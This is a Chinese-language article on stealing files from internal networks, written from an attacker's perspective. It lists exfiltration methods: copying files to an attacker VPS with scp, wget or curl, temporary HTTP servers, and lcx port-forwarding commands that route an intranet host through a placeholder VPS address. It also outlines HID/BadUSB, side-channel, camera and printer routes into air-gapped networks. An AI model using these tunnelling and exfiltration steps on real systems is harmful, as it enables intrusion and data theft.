

# 内网文件窃取

本文主要介绍了攻击者视角下对于内网渗透的一般过程，简单讨论窃取内网文件的一些常见方法，以及不那么常见但更容易让人疏忽也更具威胁的一些方法。作者：@[王泉](wangquan@hrbeu.edu.cn)

### 内网渗透的真实场景

一般来讲，攻击者有三种途径进入内网：

   1. 利用Web漏洞控制Web服务器;
   2. 利用钓鱼控制单台内网主机;
   3. 利用WIFI接入点在内网进行MITM或钓鱼。

这是最常见的攻击者进入内网的三种途径，在接下来的测试里，假设攻击者已经通过其中一种方法，完全控制了内网中的一台机器（可能是个人主机、Web服务器、邮件服务器或者文件服务器等）。++ 在此基础上，攻击者的目标是要获取内网中该机器上的A文件，即将A文件复制到攻击者的主机。 ++ 下面完全从真实的入侵者视角讨论各种情况下可以采取的文件窃取。

### 内网窃取文件的常规方法

- #### 场景一： 从网站入侵小型内网

	下图为最常见的小企业内网结构：

	

	右下方为攻击者主机，攻击者通过公网VPS作为代理，绕过防火墙，利用Web漏洞控制了网站，通过进一步提权控制了Web服务器（Linux）。Web服务器有2块网卡，一块IP为10.0.27.131,接通外网;另一块IP为192.168.5.129,接通内网。内网中有3台服务器，一台无线路由器，还有一台树莓派（代表打印机等物联网设备）。内网设备都不连外网。

	- ##### 真实环境模拟

		- Web服务器1台，连接外网，最好是Linux（debian）。
		- Linux（debian）服务器1台，运行SVN和FTP，托管员工的代码，并作为文件服务器，不连外网。
		- Windows主机1台，员工主机，不连外网。

	- ##### 当前权限

		黑客通过网站漏洞控制了网站，进一步提权控制了网站所在的服务器。这是最常见的场景。黑客拥有以下权限：

		1. 能够从外网访问Web服务器上的网站;
		2. 操控整个网站;
		3. 拥有Web服务器root权限，并能够通过ssh连接（一般稍微安全一些的公司Web服务器都不能直接拿到root权限，只能拿到普通用户权限，但这里为了方便，假设直接拿到root）;

	- ##### 目标1： 窃取当前Web服务器上的文件A

		- 方法1： 直接将文件A挂载到网站目录下，通过正常访问下载文件。
		- 方法2： ssh登录到该服务器，将文件发送到黑客控制的VPS，scp、wget、curl命令都可以实现。
		- 方法3： 如果服务器上对执行命令有限制，进入文件A所在目录，执行以下命令：`python -m SimpleHTTPServer`。开启一个临时的HTTP服务，在外网访问`http://10.0.27.131:8888/A`即可下载文件。类似的也可以开启临时ftp服务，根据防火墙的过滤情况和服务器情况而定。

	- ##### 目标2： 窃取内网主机上的文件A

		内网的机器都不能直接访问外网，但能够访问受黑客控制的Web服务器。

		- 方法1： 利用端口转发，使黑客主机能够访问到内网机器的端口，常用工具及说明如下：

			| 工具    | 功能   | 使用 | 说明|
			|--------|--------|-----|-----|
			|lcx|单个端口映射|VPS上执行`lcx.exe –listen 8080 80`，Web服务器执行`lcx.exe –slave X.X.X.X 80 192.168.5.128 80`|将内网服务器192.168.5.128的80端口转发到Web服务器的8080端口|
            |earthworm|SOCKS代理和lcx端口转发|略|可以像lcx那样映射内网端口，也可以用来做socks5反向代理，比较强大|
            |shadowsocks|可穿透防火墙的socks5代理|略|自定义加密方式，可以穿透防火墙，比较方便|
            |...|...|...|...|

		在Web服务器上搭建好代理/反向代理或者端口映射后，就可以进行内网漫游。然后进一步控制域控，利用IPC开启共享，将文件A拷贝到Web服务器上，再按目标1的方法获取。

### 内网完全隔离情况下窃取文件方法

以上讲述的窃取方法只能应用于内网有出口的情况。对于一些特殊的内网环境，例如内网完全隔离，没有公网Web服务器，需要采取一些特殊的方法。

- #### HID攻击

	HID攻击全称为人体输入学设备攻击，利用鼠标，键盘等设备进行攻击，窃取文件。国外的Bad USB，Teenesy，国内的烧鹅，都能实现这种攻击。原理大概是，将鼠标或者键盘驱动刷到芯片里，插到电脑USB口之后，电脑识别为键盘，不会对该设备进行扫描。芯片模拟键盘输入，执行之前写入在芯片里的powershell脚本，进行攻击。

	我之前有一套烧鹅，利用powershell能够在插上电脑后2秒内种上木马，也能从电脑窃取文件。

- #### 广义的边信道攻击

	- **电磁**：西电有团队实现了通过分析电脑运行程序过程中的泄漏的电磁信号，还原出程序的汇编码。

	- **图片**：通过自定义的编码压缩方式，将一个大的目标文件编码成一张图片，拍照后根据图片还原出文件。

	- **声音**：通过自定义的编码压缩方式，将一个大的目标文件编码成一段音频，将这段音频录制下来然后还原。我测试了下，将目标txt文件内容转化为ASCII码，然后转化为每个字符转化为8位二进制码，由原始txt文件生成了一个二进制串。再调用Windows系统自带的蜂鸣器，1代表高音，0代表低音，成功将文件转化为一段音频。录制下来后很容易辨认。（Ps：但我没能还原文件，处理高音和低音出了一些问题，但这种方法应该是可行的。）

- #### 入侵物联网设备

	虽然内网完全隔离，无法访问外网，外网也无法访问。但内网中一些容易忽略的物联网设备是连接外网的，或许能够从这个方面进行突破。

	- ##### 可能被忽略的监控摄像头

		监控摄像头分为两种：闭路摄像头和网络摄像头。

        - 闭路摄像头不连网，通过HDMI线传输视频信号，利用电视监控。
        - 网络摄像头一般都有一个公网IP，用户通过访问公网IP，登录后对摄像头进行管理。大多数网络摄像头都很不安全，存在弱口令和各种漏洞。攻击者如果能够找到摄像头分布的网段，就很有可能控制摄像头，可能窃取到一些文件。

	- ##### 更加被忽略的打印机

		打印机经常被忽略。一方面，结合上面的边信道攻击，攻击者可以将目标文件经过特殊编码后打印，然后带走打印文件，解码还原出原文件。另一方面，如果采用的是智能打印机，攻击者有可能登录到打印机上，获取所有打印历史记录，窃取文件。

